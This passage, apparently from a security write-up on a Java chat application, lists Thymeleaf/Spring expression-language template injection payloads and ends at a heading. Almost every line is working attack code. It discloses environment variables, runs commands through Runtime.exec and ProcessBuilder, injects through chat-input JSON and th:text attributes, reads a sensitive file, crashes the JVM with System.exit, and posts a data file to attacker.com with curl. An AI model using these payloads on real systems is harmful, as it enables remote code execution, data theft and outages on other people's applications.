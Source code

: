 #### Environment Variable Disclosure
```thymeleaf
${T(java.lang.System).getenv()}
${T(java.lang.System).getProperty('user.dir')}
${T(java.lang.System).getProperty('java.version')}
```

### 2. Advanced Exploitation Techniques

#### Multi-Stage Payload Execution
```thymeleaf
${T(java.lang.Class).forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('cmd /c echo stage1 && echo stage2')}
```

#### Reflection-Based Code Execution
```thymeleaf
${T(java.lang.Thread).currentThread().getContextClassLoader().loadClass('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('notepad.exe')}
```

#### Process Builder for Complex Commands
```thymeleaf
${T(java.lang.ProcessBuilder).new({'cmd','/c','whoami'}).start()}
${T(java.lang.ProcessBuilder).new({'powershell','-c','Get-ComputerInfo'}).start()}
```

### 3. Context-Specific Injection Vectors

#### Chat Interface Context Variables
```javascript
// Injected through chat-base.js user input
{
  "userInput": "${T(java.lang.Runtime).getRuntime().exec('calc.exe')}",
  "context": {
    "malicious": "*{T(java.lang.System).exit(0)}"
  }
}
```

#### Quick Reply Template Injection
```thymeleaf
th:text="${T(java.lang.Runtime).getRuntime().exec('cmd /c type C:\\sensitive.txt')}"
```

#### HTTP Calls Task Template
```thymeleaf
#{T(java.lang.Runtime).getRuntime().exec('curl -X POST http://attacker.com/exfiltrate -d @C:\\data.txt')}
```

## Attack Vector Documentation
